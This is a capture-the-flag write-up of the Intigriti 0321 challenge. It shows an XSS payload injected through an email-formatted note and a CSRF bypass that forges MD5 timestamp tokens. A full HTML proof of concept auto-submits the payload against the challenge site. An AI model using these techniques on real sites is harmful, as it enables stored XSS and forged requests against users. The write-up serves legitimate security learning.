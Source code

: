 # Intigriti 0321 Challenge Writeup

First of all , how the website work is the website has notes that take input. Our input has generated to the `<p>` tag. I have entered html tags like `<script> , <h1>,` etc..
and it encoded all the html tags.  
  When I entered the notes as `https://google.com` , the response come with `<a>` tag. I tried to escape from the <a> tag and still it 
didn't work.  
  Then , I tried with `mgthura@test.com` it converted to <a> tag again.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit.PNG?raw=true)
  I tested to break out the <a> tag again with the payload `"mgthura"@test.com`.  
  The response
come with `<a href="mailto:" mgthura"@test.com"="">"mgthura"@test.com</a>` showing that  we've successfully injected to the tag. Still we can't use to escape from the <a> tag
just adding some event so the new payload will be `"onmouseenter=alert('flag{THIS_IS_THE_FLAG}');"@test.com`  
  By entering the new payload,
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit2.PNG?raw=true)
  It was still a self xss. The challenge said it can't be self xss.
  So we need to chain csrf to get a stored xss. I checked the csrf token and anaylsing which hash it is , seem to be md5 hash.
  Look at the first photo again, see what it is written with comment tag.  
  `<!-- page generated at 2021-03-29 12:38:35 -->`  
  By changing the time to timestamp , I got the digits `1617020646` and encrypting to md5.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/md5.PNG?raw=true)  
  Hence , we now how to bypass CSRF it's time to make a POC.  
    
  The csrf works liken when you open the page it will generate a token and you need to make a request with that generated token. So we've to open a new page in POC or by using iframe.
  ```<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js" integrity="sha512-Hmp6qDy9imQmd15Ds1WQJ3uoyGCUz5myyr5ijainC1z+tP7wuXcze5ZZR3dF7+rkRALfNy7jcfgS5hH8wJ/2dQ==" crossorigin="anonymous"></script>
<script>
function go(){
let w = window.open("https://challenge-0321.intigriti.io/",'');
setTimeout(function(){w.close();trigger();csrf.submit()},1000)
}
</script>

<h1 onclick=go()>Click me</h1>
<form name=csrf style="display:none" action="https://challenge-0321.intigriti.io/" method="POST">
<input id="csrfToken" type="hidden" name="csrf" value="" />
<input type="hidden" name="notes" value="&quot;onmouseenter=alert(&#39;flag{THIS_IS_THE_FLAG}&#39;);&quot;@test.com" />
<input type="submit" onclick="trigger()" value="Submit request" />
</form>
<script>

var d2 = Date.now();
console.log(d2);
let csrftoken = document.getElementById("csrfToken");

let trigger = () => {
let date = Date.now();
date = Math.floor(date / 1000)
hash = md5(date);
csrftoken.value = hash
console.log(date);
}
</script>
</body>

</html>
```
## Explantation of POC
First , I called a javascript that will encrypt the value to md5
`https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js`.  
The another script tag is opening a new window and submitting the request. The form is CSRF request , the last script is I take current timestamp with `Date.now()`.  
The timestamp includes millisecond and don't need it so removed by dividing 1000 for the decimal value I used Math.floor to remove that.
Now encrypt it with md5 , finally we got the csrf value.
Still the script is right but sometime it late a second when we hash the value. I asked  help from my friend to become a better script.  
You have to allow pop-up to use this script. https://raw.githubusercontent.com/mgthuramoemyint/mgthura/gh-pages/final.html
![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/2021-03-29%2020-07-56.gif?raw=true)
